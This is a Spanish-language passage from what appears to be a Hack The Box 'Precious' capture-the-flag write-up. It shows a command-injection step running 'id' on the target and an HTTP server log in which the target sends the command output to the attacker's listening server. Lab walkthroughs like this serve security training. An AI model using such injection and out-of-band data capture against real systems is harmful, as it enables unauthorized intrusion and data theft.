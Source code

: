 <p align="center">
<img src="/assets/images/htb-writeup-precious/Captura6.png">
</p>

* Ahora inyecta el **comando id** y observa el resultado:

<p align="center">
<img src="/assets/images/htb-writeup-precious/Captura7.png">
</p>

* Observa lo que ocurrio en el servidor HTTP:
```bash
python3 -m http.server 8000   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [10/Apr/2023 13:53:41] "GET /?name=%20ruby HTTP/1.1" 200 -
10.10.11.189 - - [10/Apr/2023 13:54:08] "GET /?name=%20uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 200 -
```
Curiosamente, el resultado se muestra también desde el servidor HTTP
